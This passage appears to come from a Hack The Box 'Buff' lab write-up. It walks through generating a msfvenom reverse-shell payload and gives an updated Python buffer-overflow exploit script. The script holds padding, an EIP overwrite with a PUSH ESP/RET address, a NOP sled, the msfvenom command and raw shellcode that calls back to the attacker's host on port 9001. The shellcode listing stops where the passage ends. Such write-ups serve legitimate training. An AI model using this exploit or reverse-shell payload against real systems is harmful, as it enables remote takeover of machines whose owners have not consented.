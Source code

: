 ![](/assets/images/htb-buff/11_buff_msfvenom.png)

Great, this will generate a payload and output it on the screen. This payload is is going to request a reverse shell to our attacking machine on port 9001.

Now we need to replace the exsisting payload, with the one generated by our msfvenom command. We will also change the "buf" variable that was generated by msfvenom to be "payload" so that we do not have to change anything else in the script. Refer to my final script if this is not clear.

##### My Updated Script
``` python
import socket

target = "10.10.10.198"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=9001 EXITFUNC=thread -b "\x00\x0A\x0D" -f python
payload = b"\xbb\x46\x39\x9d\x72\xdb\xc1\xd9\x74\x24\xf4\x58\x29"
payload += b"\xc9\xb1\x52\x31\x58\x12\x03\x58\x12\x83\xae\xc5\x7f"
payload += b"\x87\xd2\xde\x02\x68\x2a\x1f\x63\xe0\xcf\x2e\xa3\x96"
payload += b"\x84\x01\x13\xdc\xc8\xad\xd8\xb0\xf8\x26\xac\x1c\x0f"
payload += b"\x8e\x1b\x7b\x3e\x0f\x37\xbf\x21\x93\x4a\xec\x81\xaa"
payload += b"\x84\xe1\xc0\xeb\xf9\x08\x90\xa4\x76\xbe\x04\xc0\xc3"
payload += b"\x03\xaf\x9a\xc2\x03\x4c\x6a\xe4\x22\xc3\xe0\xbf\xe4"
payload += b"\xe2\x25\xb4\xac\xfc\x2a\xf1\x67\x77\x98\x8d\x79\x51"
payload += b"\xd0\x6e\xd5\x9c\xdc\x9c\x27\xd9\xdb\x7e\x52\x13\x18"
payload += b"\x02\x65\xe0\x62\xd8\xe0\xf2\xc5\xab\x53\xde\xf4\x78"
payload += b"\x05\x95\xfb\x35\x41\xf1\x1f\xcb\x86\x8a\x24\x40\x29"
payload += b"\x5c\xad\x12\x0e\x78\xf5\xc1\x2f\xd9\x53\xa7\x50\x39"
payload += b"\x3c\x18\xf5\x32\xd1\x4d\x84\x19\xbe\xa2\xa5\xa1\x3e"
payload += b"\xad\xbe\xd2\x0c\x72\x15\x7c\x3d\xfb\xb3\x7b\x42\xd6"
payload += b"\x04\x13\xbd\xd9\x74\x3a\x7a\x8d\x24\x54\xab\xae\xae"
payload += b"\xa4\x54\x7b\x60\xf4\xfa\xd4\xc1\xa4\xba\x84\xa9\xae"
payload += b"\x34\xfa\xca\xd1\x9e\x93\x61\x28\x49\x96\x7f\x3c\x99"
payload += b"\xce\x7d\x40\xba\x27\x0b\xa6\xd6\x27\x5d\x71\x4f\xd1"
```